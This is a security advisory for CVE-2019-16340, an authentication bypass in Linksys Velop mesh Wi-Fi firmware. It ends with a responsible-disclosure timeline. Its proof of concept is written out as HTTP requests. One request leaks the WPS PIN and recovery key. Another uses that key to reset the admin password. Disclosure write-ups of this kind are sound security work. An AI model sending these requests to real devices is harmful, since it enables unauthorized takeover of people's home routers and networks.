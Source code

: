 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [CVE-2019-16340]
---
```


## Linksys Velop Authentication Bypass


### Affected Software
Firmware version:	Before 1.1.8.192419
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
[CVE-2019-16340](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16340)

During the analysis, I found a critical bug in its firmware and this vulnerability may allow an unauthenticated user get administrator privilege. The problem is caused by the API of **/sysinfo_json.cgi**, requesting this url will leak sensitive information and may lead to authentication bypass.
#### PoC
We could get some useful information with the PoC below:
~~~http
GET /sysinfo_json.cgi HTTP/1.1
Host: 10.158.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
~~~

~~~http
HTTP/1.1 200 OK
Connection: close
CONTENT-LANGUAGE: en
Date: Thu, 11 Oct 2012 11:09:15 GMT
Server: lighttpd/1.4.39
Content-Length: 94710

siSections="MfgData,BootData,Syscfg,Sysevent,Messages,Dmesg,Ps,MemoryInfo,CpuInfo,WifiBasicInfo,WifiRadioInfo,WifiClientInfo,WifiPoorClientInfo,WifiLegacyClientInfo,WifiAllAPInfo,WifiSameAPInfo,WifiAllCAInfo,WifiMyCAInfo,IPInfo,PingInfo,Conntrack,ConntrackTotals,ConntrackAvg,Thrulay";
var MfgData = {
 "title": "Manufacturer Data",
 "description": "This is used to manufacturer unit and in SKU API",
 "timestamp": "16:01:02.12/31/69",
 "data": [
{
.......
 "wps_pin": "wps_device_pin = 58163597",
.......
"device_recovery_key": "84667",
.......
 }
 ]
};
......
~~~
The most important value we can get is WPS PIN and Device Recovery Key. For the WPS PIN, we can use it to connect to the wifi even if the wifi password is changed when wps is enabled. Recovery key can be used to reset the admin password, we may construct the following request to change the admin password:
~~~http
POST /JNAP/ HTTP/1.1
Host: 192.168.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
Content-Length: 48
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
X-JNAP-Action: http://linksys.com/jnap/nodes/setup/SetAdminPassword

{"resetCode":"84667","adminPassword":"test1234"}
~~~
By sending this request to the router, we can successfully change the administration password to **test1234**

### Timeline

We reported the bug to the vendor in Feb,2019 and they released a patch in August:

~~~text
25 Feb 2019 03:07:55 UTC: Submitted the problem to vendor
26 Feb 2019 20:55:22 UTC: The vendor acknowledged the problem and reproduced it.
31 May 2019 12:39:01 UTC: Asked if there is any updates. No response
06 Jun 2019 03:42:03 UTC: Asked if there is any updates. 
06 Jun 2019 04:41:23 UTC: The vendor reply as: Apologies for the delay in response; the engineering team informs me that a firmware release for Velop will be released later this month. Would you like a preview of this firmware to confirm our fix?
06 Jun 2019 08:28:51 UTC: Replied : No.
25 Jul 2019 00:44:31 UTC: Asked for any updates. No response.
26 Jul 2019 18:22:12 UTC: The vendor replied: We are starting a limited rollout of the release starting tonight and if all goes well, the full release will be opened up in the first week of August. Thank you!
21 Aug 2019 03:38:42 UTC: Asked if there is any updates
23 Aug 2019 21:01:30 UTC: The vendor replied as :We have finally released a fix to address this issue: https://www.linksys.com/us/support-article?articleNum=207568. We have not applied for a CVE and do not have any plans to do so. Thank you!
26 Aug 2019 00:38:08 UTC: Asked we will apply a CVE for this issue
27 Aug 2019 17:23:51 UTC: Replied:we have no objections if you'd like to file for a CVE.
~~~